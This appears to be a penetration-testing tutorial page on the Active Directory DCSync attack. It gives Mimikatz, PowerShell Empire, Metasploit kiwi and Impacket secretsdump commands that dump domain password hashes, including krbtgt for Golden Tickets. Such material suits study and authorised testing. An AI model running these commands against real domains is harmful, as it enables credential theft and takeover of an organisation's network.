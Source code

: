 # DCSync

Most organizations need more than one domain controller for their Active Directory and to maintain consistency among multiple Domain controller, it is necessary to have the Active Directory objects replicated through those DCs with the help of MS-DRSR refer as Microsoft feature Directory Replication Service (DRS) Remote Protocol that is used to replicate users data from one DC to another. Taking Advantage of this feature the attack abuse the MS-DRSR using Mimikatz-DCSYNC.

{% hint style="info" %}
Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.
{% endhint %}

## **DCSYNC Attack**

The Mimikatz DCSYNC-function allows an attacker to replicate Domain Controller (DC) behaviour. Typically impersonates as a domain controller and request other DC’s for user credential data via GetNCChanges.

But compromised account should be a member of administrators, Domain Admin or Enterprise Admin to retrieve account password hashes from the others domain controller. As a result, the intruder will build Kerberos forged tickets using a retrieved hash to obtain any of the Active Directory ‘s resources and this is known as **Golden Ticket** attack.

{% hint style="info" %}
**For this attack to work, we need to have a user account with domain admins membership.**
{% endhint %}

### **Using Mimikatz DCSync**

```
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

{% hint style="info" %}
Read-Only Domain Controllers are not allowed to pull password data for users by default.
{% endhint %}

### **PowerShell Empire**

```
usemodule credentials/mimikatz/dcsync_hashdump
set user krbtgt
execute
```

the Empire has a similar module that retrieves the hash of the entire domain controller users account.

```
usemodule credentials/mimikatz/dcsync_hashdump
execute
```

### **Metasploit**

If you have meterpreter session of the victim machine who account is member of domain admin, then here also you can execute Mimikatz-DCSYNC attack in order to obtain user’s password.

```
load kiwi
dcsync_ntlm krbtgt
dcsync krbtgt
```

### Impacket secretsdump

```
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'
​
# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
​
# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

